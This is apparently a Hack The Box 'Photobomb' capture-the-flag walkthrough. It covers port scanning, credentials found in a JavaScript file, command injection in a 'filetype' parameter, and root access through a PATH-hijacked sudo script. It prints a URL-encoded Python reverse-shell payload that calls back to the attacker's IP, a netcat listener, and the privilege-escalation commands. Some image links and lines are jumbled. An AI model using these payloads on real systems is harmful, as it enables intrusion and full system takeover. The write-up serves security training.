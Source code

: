 # Hack The Box - Photobomb Walkthrough 

## Reconnaissance
Retrieving the IP address of the machine, I started a quick inital Nmap scan to see which ports are open and which services are running on those ports.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Photobomb]
└─$ sudo nmap -sC -sV -sT -O -oA nmap/initial 10.10.11.182 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-28 05:46 EST
Stats: 0:01:41 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.50% done; ETC: 05:50 (0:01:42 remaining)
Stats: 0:04:56 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 68.62% done; ETC: 05:53 (0:02:15 remaining)
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.50s latency).                                                                                                                                 
Not shown: 997 closed tcp ports (conn-refused)                                                                                                              
PORT     STATE    SERVICE VERSION                                                                                                                           
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                                      
| ssh-hostkey:                                                                                                                                              
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)                                                                                              
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)                                                                                             
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)                                                                                           
80/tcp   open     http    nginx 1.18.0 (Ubuntu)                                                                                                             
|_http-title: Photobomb                                                                                                                                     
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                 
3690/tcp filtered svn                                                                                                                                       
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).                                                         
TCP/IP fingerprint:                                                                                                                                         
OS:SCAN(V=7.92%E=4%D=1/28%OT=22%CT=1%CU=36113%PV=Y%DS=2%DC=I%G=Y%TM=63D5017                                                                                 
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)SEQ(SP=1                                                                                 
OS:05%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M537ST11NW7%O2=M537ST11NW7%O                                                                                 
OS:3=M537NNT11NW7%O4=M537ST11NW7%O5=M537ST11NW7%O6=M537ST11)WIN(W1=FE88%W2=                                                                                 
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M537NNSN                                                                                 
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D                                                                                 
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O                                                                                 
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W                                                                                 
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R                                                                                 
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)                                                                                                              
                                                                                                                                                            
Network Distance: 2 hops                                                                                                                                    
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                                                     
                                                                                                                                                            
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                       
Nmap done: 1 IP address (1 host up) scanned in 1120.72 seconds   
```

So, we got `two` ports open
- Port `22`: running `OpenSSH 8.2p1 `
- Port `80`: runninng `nginx 1.18.0`

So Now, I ran `Rustscan` that covers all ports. The idea behind using `Rustscan` is that it is faster compared to Nmap since `Rustscan` using Multi-threading but doesnt have service, OS, script scan features. So, I basically used `Rustscan` to find open ports and If I find them, i'll only scan those ports for services, version & OS detection using Nmap, making it faster and much efficient.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Photobomb]
└─$ rustscan -a 10.10.11.182 --range 1-65535
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.182:22
Open 10.10.11.182:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 22,80 10.10.11.182

Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-28 06:13 EST
Initiating Ping Scan at 06:13
Scanning 10.10.11.182 [2 ports]
Completed Ping Scan at 06:13, 3.03s elapsed (1 total hosts)
Nmap scan report for 10.10.11.182 [host down, received no-response]
Read data files from: /usr/bin/../share/nmap
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.07 seconds
```

## Enumeration
Now, that I know Port `80` will be the only way to enumerate this machine going forward, I visted the website. 

As soon as I entered the IP address in the URL, it changed to `photobomb.htb`, so I added the hostname and IP address to `/etc/hosts` file
```
sudo echo 10.10.11.182 photobomb >> /etc/hosts
```

The visiting webpage was as following, and there was a `click here` link, which on clicking presented a `login` prompt to me.

![pb-1](https://user-images.githubusercontent.com/87711310/215263438-79f3464a-9d69-4604-b30e-38a04282fa65.png)

Since, I didnt know any credentials, I tried common credentials and they did not work.

So, I looked at the source-code, and found an interesting `.js` file

![pb-2](https://user-images.githubusercontent.com/87711310/215263442-4808c2e0-24dd-4896-b851-8d3cca1f3c64.png)

Looking at the contents of `photobomb.js` file, I found `username:password` combination in a `wierd email format`. 

![pb-3](https://user-images.g![pr-7](https://user-images.githubusercontent.com/87711310/215265347-cc243110-e307-445c-80f3-b2987eea6761.png)ithubusercontent.com/87711310/215263440-88af22be-63b0-4e2d-8b53-c24888f55928.png)

Since, there was nothing else than a `login` page that I encountered, I decided to use these credentials to check whether I could sign-in to the `/printer` page.

And guess what? we did sign in to the website!! Once, we're signed in, I was in the `/printer` directory of the website and could see a couple of things

![pb-4](https://user-images.githubusercontent.com/87711310/215263444-3c196b5f-a89c-43d7-894e-a11ec6ec7541.png)

There was also a functionality to select the image type (.raw, .jpg, etc.) and even a button to download the images

![pb-5](https://user-images.githubusercontent.com/87711310/215263446-9d9a2e7b-619f-4ed4-a647-cbaa38d679c0.png)

So, now I captured the request in `Burp` and try some `command injection` in all the parameters since I didnt know which parameter was vulnerable.

![pr-6](https://user-images.githubusercontent.com/87711310/215265132-60dc96ba-def7-4fad-9fc5-e775eef7dec5.png)

Before that I hosted a web-server on my machine to provide a file for the request to access.

Once I sent the request, I got an error for dimensions, which confirms that there was no vulnerability in `dimensions` parameter


![pr-7](https://user-images.githubusercontent.com/87711310/215265347-cc243110-e307-445c-80f3-b2987eea6761.png)

So, I removed the payload from `dimensions` parameter and sent the request with the payload in only `filetype` parameter and we got a hit!

The request gave an error.

![pr-8 1](https://user-images.githubusercontent.com/87711310/215265323-3c838f21-e3de-4014-8d34-902c9a044ba2.png)

But we got a hit on our server.

![pr-8 2](https://user-images.githubusercontent.com/87711310/215265322-29b7dded-9d21-4c96-ba18-e7628ec7b1e4.png)

Now that I know this parameter is vulnerable to `command injection`, I decided to get a reverse shell to my machine

## Exploitation

Firstly, I tried the `bash` payload, but it didn't seem to work, so, I decided to use `python` one instead

```python
%3bexport+RHOST%3d"10.10.16.2"%3bexport+RPORT%3d9001%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
```

Before sending the request, I turned on the `netcat` listener
```
nc -lvnp 9001
```

Once I sent the request, I immediately got back the shell with a user `wizard`
```
Once┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Photobomb]
└─$ nc -lvnp 9001    
listening on [any] 9001 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.182] 54824
$ whoami
whoami
wizard
$ 
```

Then, I made it an interactive shell
```python
python3 -c "import pty;pty.spawn('/bin/bash')" 
```

Then, I moved on to retrieve the `user` flag

```
wizard@photobomb:~/photobomb$ cd /home
cd /home
wizard@photobomb:/home$ ls
ls
wizard
wizard@photobomb:/home$ cd wizard
cd wizard
wizard@photobomb:~$ ls
ls
photobomb  user.txt
wizard@photobomb:~$ cat user.txt
cat user.txt
[REDACTED]

```

## Privilege Escalation
Now, before using `Linpeas`, I always check what services could be ran as `root` users with the `sudo -l` command

Seems like we can run `cleanup.sh` with `root` permission. So let’s try to view the contents of `cleanup.sh` for any possibilities to gain `root` privilege

```
wizard@photobomb:~$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```

It's just a simple `bash` file, what we can do is add `bash` in the file and execute it with `root` permission to give us a `root` shell

```
wizard@photobomb:~$ echo bash >> /opt/cleanup.sh
echo bash >> /opt/cleanup.sh
bash: /opt/cleanup.sh: Permission denied
wizard@photobomb:~$ echo bash > find
echo bash > find
wizard@photobomb:~$ chmod +x find
chmod +x find
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# whoami
whoami
root
```

Now, I was not directly able to add bash to the `cleanup.sh` file, so I added it to `find` and then executed the `bash` file

```
root@photobomb:/home/wizard/photobomb# cat /root/root.txt
cat /root/root.txt                                                                                                                                                                                                                                                                                                          
[REDACTED]
```

And we can get the `user` flag!!!
